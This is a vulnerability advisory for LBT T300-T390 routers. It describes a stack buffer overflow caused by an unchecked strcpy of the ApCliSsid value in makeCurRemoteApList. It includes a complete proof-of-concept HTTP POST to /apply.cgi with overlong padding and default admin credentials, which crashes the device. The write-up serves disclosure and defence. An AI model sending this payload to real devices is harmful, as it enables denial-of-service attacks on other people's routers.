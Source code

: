 # LBT router makeCurReoteApList function stack overflow vulnerability

> vendor:LBT
>
> product:T300-T390
>
> version:v2.2.1.8
>
> type:Stack Overflow

## Vulnerability Description

LBT T300-T390 were discovered to contain a stack overflow via the ApCliSsid parameter in the makeCurRemoteApList function.

## Vulnerability Details

There is a stack overflow in the ApCliSsid variable in the makeCurRemoteApList function in the Rc program. The rc program is started through its symbolic link init. This variable is obtained through the system nvram_get function and is passed directly to the strcpy dangerous function without processing, causing a stack buffer overflow based on v13, you can pass in the request package parameters by modifying the apclient_scan.asp page, thereby causing a denial of service attack.

The calling process of the overflow function is as follows:

Main()->sysK_main()->scanApAutoConnect()->makeCurRemoteApList()

![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/da0cf326-a087-442c-9cd1-f7943158c9ee)


## POC

    POST /apply.cgi HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 697
    Cache-Control: max-age=0
    Authorization: Basic YWRtaW46YWRtaW4=
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.10.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://192.168.10.1/apclient_scan.asp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
    Connection: close

    submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliAuthMode=OPEN&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

   

    
